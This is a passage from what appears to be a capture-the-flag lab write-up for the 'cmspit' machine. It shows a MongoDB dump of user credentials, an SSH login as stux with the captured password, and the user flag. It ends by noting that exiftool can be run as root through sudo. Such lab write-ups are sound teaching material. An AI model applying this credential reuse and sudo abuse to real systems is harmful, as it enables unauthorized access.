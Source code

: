 ```sql

switched to db sudousersbak

> show collections

flag
system.indexes
user

> db.user.find()

{ "_id" : ObjectId("60a89d0caadffb0ea68915f9"), "name" : "p******23" }
{ "_id" : ObjectId("60a89dfbaadffb0ea68915fa"), "name" : "stux" }
```
## user.txt 🚩

Now since we have the password for user `stux` ,let's SSH in to machine as **STUX** & grab the `user.txt`  !

```bash
sh3bu@VM:~/thm/cmspit$ ssh stux@cmspit.thm

stux@cmspit.thm's password: 

Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)



 * Documentation:  https://help.ubuntu.com

 * Management:     https://landscape.canonical.com

 * Support:        https://ubuntu.com/advantage

Last login: Sat May 22 19:41:38 2021 from 192.168.85.1

stux@ubuntu:~$ id

uid=1000(stux) gid=1000(stux) groups=1000(stux),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)

stux@ubuntu:~$ cat user.txt

thm{c5fc72c4**********a05f0ce}
```
# Shell as root
----------------------

Running `sudo -l` revealed that we could run `exiftool` as root.
